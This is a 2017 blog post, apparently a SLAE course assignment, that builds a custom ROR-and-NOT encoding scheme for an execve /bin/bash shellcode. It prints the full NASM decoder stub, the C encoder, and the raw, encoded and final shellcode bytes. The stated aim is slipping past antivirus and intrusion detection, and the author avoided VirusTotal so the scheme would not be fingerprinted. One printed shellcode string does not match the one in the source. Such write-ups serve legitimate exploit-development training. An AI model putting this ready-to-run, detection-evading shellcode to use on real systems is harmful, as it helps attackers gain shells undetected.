 ```yaml
---
layout: post
title:  "SLAE Assignment 4 - Encoding/Decoding Shellcode"
date:   2017-04-23
categories: certification
---
```

<br />
Student **SLAE - 891**  
Github: [https://github.com/phackt/slae](https://github.com/phackt/slae)  
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  
  
## Assignment 4:  
  
Code is available on my [github repo](https://github.com/phackt/slae/tree/master/assignment4).  
  
**Our Goal:**  
> *Create a custom encoding scheme*
 - *POC with using the execve-stack as the shellcode*  
  
Hello everybody,  
  
Today we will create an encoded shellcode and its decoding routine.  Encoding a shellcode is useful to bypass Antivirus or Intrusion Detection Systems. Our resulting shellcode and its opcodes will have no meaning at all if the encoding scheme if robust enough (for example avoid classic XOR encoding).  
  
For each byte, our encoding scheme will consists in:  
 - Rolling four bits to the right (ROR instruction)  
 - Getting the complement of that byte (NOT)  
  
We will apply this encoding scheme on the following execve **/bin/bash** stack shellcode:  
```nasm
global _start			

section .text
_start:

	; PUSH the first null dword 
	xor eax, eax
	push eax

	; PUSH ////bin/bash (12) 

	push 0x68736162
	push 0x2f6e6962
	push 0x2f2f2f2f

	mov ebx, esp

	push eax
	mov edx, esp

	push ebx
	mov ecx, esp

	mov al, 11
	int 0x80
```  
  
Testing the execve stack shellcode provides a /bin/bash prompt indeed:  
```bash
# gcc -fno-stack-protector -z execstack -o shellcode shellcode.c  && ./shellcode
Shellcode Length:  30
root@kali:/root/Documents/pentest/certs/slae/exam/assignment4# id
uid=0(root) gid=0(root) groups=0(root)
```  
  
Execve stack shellcode looks like:  
```bash
\x31\xc0\x50\x68\x2f\x2f\x6c\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```
  
Let's now create our encoding routine ([shellcode_encode.c](https://github.com/phackt/slae/tree/master/assignment4/shellcode_encode.c)):  
```c
#include <stdio.h>
#include <string.h>

// execve stack shellcode
unsigned char shellcode[] = \
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

// print shellcode
void print_shellcode(){

	printf("Length %d\n",sizeof(shellcode));
	for (int i=0; i<strlen(shellcode); i++) {
		printf("\\x%02x", shellcode[i]);
	}
	printf("\n");

	for (int i=0; i<strlen(shellcode); i++) {
		printf("0x%02x,", shellcode[i]);
	}
}

void main()
{

	int	rotate = 4;	// rotate 4 bits to the right

	// print initial shellcode
	printf("Initial shellcode\n");
	print_shellcode();
	printf("\n");

	for (int i=0; i<strlen(shellcode); i++) {
		shellcode[i] = (shellcode[i] >> rotate) | (shellcode[i] << (8-rotate));	// ror method
		shellcode[i] = ~shellcode[i]; // one's complement 
	}

	// print encoded shellcode
	printf("\nEncoded shellcode\n");
	print_shellcode();
	printf("0xaa"); // marker for the end of encoded shellcode
	printf("\n");

}
```
  
The encoded execve stack shellcode is the following:  
```bash
0xec,0xf3,0xfa,0x79,0xd9,0xe9,0xc8,0x79,0x79,0xd9,0x69,0x19,0x0d,0x79,0x0d,0x0d,0x0d,0x0d,0x67,0xc1,0xfa,0x67,0xd1,0xca,0x67,0xe1,0xf4,0x4f,0x23,0xf7,0xaa
```
  
Let's create the decoding nasm shellcode [shellcode_decoder.nasm](https://github.com/phackt/slae/tree/master/assignment4/shellcode_decoder.nasm):  
```nasm
global _start			

section .text
_start:

	jmp short call_shellcode    ; jmp, call, pop technique

decoder:
	pop esi

decode: 
	xor eax, eax
	xor ebx, ebx
	mov al, byte [esi]          ; we move the byte to be decoded
	not al                      ; one's complement
	rol al, 4                   ; rolling on left to decode the rolling on right encoding
	mov byte [esi], al          ; saving the decoded byte

	lea esi, [esi + 1]          ; next byte   
	mov bl, [esi]  
	cmp bl, 0xaa                ; looking for the end of encoded shellcode
	je short EncodedShellcode   ; we jump to the decoded shellcode
	jmp short decode            ; keeping on decoding

call_shellcode:

	call decoder
	EncodedShellcode: db 0xec,0xf3,0xfa,0x79,0xd9,0xe9,0xc8,0x79,0x79,0xd9,0x69,0x19,0x0d,0x79,0x0d,0x0d,0x0d,0x0d,0x67,0xc1,0xfa,0x67,0xd1,0xca,0x67,0xe1,0xf4,0x4f,0x23,0xf7,0xaa
```  
  
Let's assembly, link and get the decoding shellcode:  
```bash
# ./compile.sh shellcode_decoder
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
# objdump -d ./shellcode_decoder|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x1a\x5e\x31\xc0\x31\xdb\x8a\x06\xf6\xd0\xc0\xc0\x04\x88\x06\x8d\x76\x01\x8a\x1e\x80\xfb\xaa\x74\x07\xeb\xe7\xe8\xe1\xff\xff\xff\xec\xf3\xfa\x79\xd9\xe9\xc8\x79\x79\xd9\x69\x19\x0d\x79\x0d\x0d\x0d\x0d\x67\xc1\xfa\x67\xd1\xca\x67\xe1\xf4\x4f\x23\xf7\xaa"
```
  
Let's update the [shellcode.c](https://github.com/phackt/slae/tree/master/assignment4/shellcode.c) file and execute our decoding shellcode:  
![image1]({{ site.url }}/public/images/slae/assignment4/image1.png)  
  
Remember that running our shellcode thanks to shellcode.c is useful because our shellcode will be located into the writable .data segment.  
If we directly execute the shellcode_decoder executable, it will result in a segmentation fault because it will try to rewrite the EncodedShellcode variable located in the non writable .text segment (also useful to use the jmp/call/pop technique in order to avoid null bytes and to dynamically get the address of our encoded shellcode).  
  
We did not test it on [VirusTotal](https://www.virustotal.com/) in order to avoid the fingerprinting of the encoding scheme.  
  
Hope you enjoyed this post, don't hesitate to comment and share.  
  
[Phackt](https://twitter.com/phackt_ul)